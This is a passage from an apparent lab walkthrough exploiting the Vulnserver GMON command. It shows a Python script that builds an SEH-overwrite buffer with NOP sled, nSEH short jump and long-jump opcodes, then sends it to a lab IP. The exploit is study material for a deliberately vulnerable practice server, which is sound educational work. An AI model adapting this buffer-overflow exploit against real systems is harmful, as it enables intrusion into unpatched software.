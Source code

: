 Lets test it in our debugger by replacing it with our ```egg hunter``` of our previous exploit,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat longjump.py 
import socket, sys

# opcodes for long jump to reach ESP+0xdc
long_jmp=b""
long_jmp+=b"\x83\xc4\x6e"
long_jmp+=b"\x83\xc4\x6e"
long_jmp+=b"\xff\x24\x24"

nseh=b""
nseh=b"\xeb\xb6"
nseh+=b"\x90\x90"

seh=b"\xb4\x10\x50\x62"

# to overwrite buffer and EBP
payload=b""
# NOP sled
payload+=b"\x90"*(3549-70)
# long jump
payload+=long_jmp
payload+=b"A"*(3549-len(payload))
# to overwrite nSEH
payload+=nseh
# to overwrite SEH
payload+=seh
# padding
payload+=b"D"*(5000-len(payload))

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GMON /."+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 longjump.py
```

After the short jump, we will be perfectly landing here executing our ```long jump``` opcodes,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-2-opcode.png">
</div>
